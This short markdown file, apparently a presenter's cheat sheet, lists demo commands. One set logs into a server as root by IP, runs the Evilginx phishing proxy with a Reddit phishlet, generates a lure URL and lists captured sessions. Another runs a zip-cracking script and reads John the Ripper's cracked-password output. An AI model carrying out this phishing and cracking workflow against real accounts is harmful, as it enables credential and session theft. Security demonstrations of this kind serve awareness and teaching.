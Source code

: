 #  Demo commands

## Evilginx
ssh root@159.65.227.162
evilginx
phishlets enable reddit
lures get-url 0
sessions

## jtr
sudo python break_zip.py
cat john/run/john.pot
tail john/run/passwords.lst

